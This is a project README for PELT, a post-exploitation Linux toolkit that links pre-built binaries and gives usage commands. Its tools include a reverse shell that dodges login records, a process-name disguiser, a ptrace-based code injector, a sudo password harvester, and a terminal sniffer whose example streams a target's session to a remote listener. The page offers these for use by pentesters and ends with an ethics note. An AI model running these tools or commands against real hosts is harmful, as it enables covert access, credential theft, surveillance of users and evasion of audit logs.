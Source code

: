 # PELT #

***
**What is PELT?**

_PELT_ is the Post Exploitation Linux Toolkit. It is intended as a collection of Linux user space tools designed to assist pentesters during the post-exploitation phases of their engagement. The tools appear here as pre-built binaries for easy access in the field.

These tools are each projects of mine with their own Github pages. Please refer to these project pages for full descriptions as well as source code.

***
### _revsh_ ###

_revsh_ is a reverse shell. It was designed to meet the needs of pentesters facing long engagements. The features include:

 * Full terminal support.
 * Unicode support.
 * Circumvention of the login record. (utmp / wtmp)
 * rc file support for launching recurring / cutomized commands upon login.
 * OpenSSL encryption with key based authentication baked into the binary.
 * Anonymous Diffie-Hellman encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default.
 * Cert pinning for protection against sinkholes and mitm counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

Project page: [https://github.com/emptymonkey/revsh](https://github.com/emptymonkey/revsh)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-x86_64-Linux), [i686-Linux](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-i686-Linux), [amd64-FreeBSD](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-amd64-FreeBSD)

Tarball of the keys / certs used with these binaries: [keys.tar](https://github.com/emptymonkey/PELT/raw/master/revsh/keys.tar) 

Example:

	empty@monkey:~$ ./revsh -c 

	user@target:~$ ./revsh

Note: The pre-built binaries here use the default keys provided. If you are using this anywhere sensitive, you are strongly encouraged to download the source and build your own copy. This will generate unique keys / certs. As always, your mission is only as secure as your key management process.


***
### _mimic_ ###

_mimic_ is a tool that allows a user to run a program, but have it show up in the process table as something different. The name in the process listing can be any string. _mimic_ does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/mimic)

Example:

	empty@monkey:~$ ./mimic -e "/bin/bash" -m "/sbin/getty 38400 tty0"

***
### _set_target_pid_ ###

_set_target_pid_ is a simple program that resets the Process ID (PID) numbers being issued by the system as close as possible to a target. This program is part of the _mimic_ project. This program does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/set_target_pid)

Example:

	empty@monkey:~$ ./set_target_pid 1

Note: The target PID is only a target. _set_target_pid_ will try to get as close as possible, but that PID may simply not be available. The PIDs smaller than 300 appear to be reserved for kernel threads. If you request a PID of '1', then look for the result around '300'. Finally, after you set the PIDs and launched your payload, don't forget to reset the PIDs again to where they were before.

***
### _shelljack_ ###

_shelljack_ is terminal sniffer. (This is similar to a keystroke logger, but it gathers all input **and** output.) _shelljack_ does **not** require root privileges (except on Ubuntu systems).

Project page:	[https://github.com/emptymonkey/shelljack](https://github.com/emptymonkey/shelljack)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/shelljack)

Example:

	empty@monkey:~$ ncat -l 192.168.1.42 9999

	user@target:~$ ./shelljack 192.168.1.42:9999 $$

Note: _shelljack_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _shelljack_ won't work on Ubuntu systems unless it is run as root. 

***
### _sigsleeper_ ###

_sigsleeper_ injects malicious code into a process that can be triggered by sending that process a signal. This type of attack is best describes as a "malicious signal handler injection with ptrace" attack. Because the injected code will sit quietly until it receives it's signal, at which point it will then launch its payload, I refer to this as "sleeper code". _sigsleeper_ does **not** require root privileges (except on Ubuntu systems).

Project page: [https://github.com/emptymonkey/sigsleeper](https://github.com/emptymonkey/sigsleeper)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/sigsleeper)

Example:

	empty@monkey:~$ sigsleeper -f -e '/bin/echo Hello world!' $$
	empty@monkey:~$ kill -USR1 $$
	empty@monkey:~$ Hello world!

Note: _sigsleeper_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _sigsleeper_ won't work on Ubuntu systems unless it is run as root.

***
### _sudo_mitm.sh ###

_sudo_mitm.sh_ is a very humble shell script that takes advantage of the SUDO_ASKPASS functionality to quickly harvest a target users password. This requires the ability to write to the target user's home directory as a prerequisite. This is useful for gathering the admin credentials quickly on an already compromised host. 

Project page: [https://github.com/emptymonkey/sudo_mitm](https://github.com/emptymonkey/sudo_mitm)


***
### _pretend_ ###

_pretend_ is a very simple program that changes your UID / GIDs. _pretend_ **does** require root privileges. This program is useful for programmatically changing your UID on the fly without requiring that the UID maps to a valid account on the host. There are a class of attacks for which this tool is very nice to have available.

Project page: [https://github.com/emptymonkey/pretend](https://github.com/emptymonkey/pretend)

Pre-built binaries: [x86_64](https://github.com/emptymonkey/PELT/raw/master/pretend)

Example: 

	empty@monkey:~$ sudo pretend 5:26:103:110:50 id
	uid=5(games) gid=26(tape) groups=60(games),50(staff),103(ssh),110(kvm)


***
### A Quick Note on Ethics ###

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.


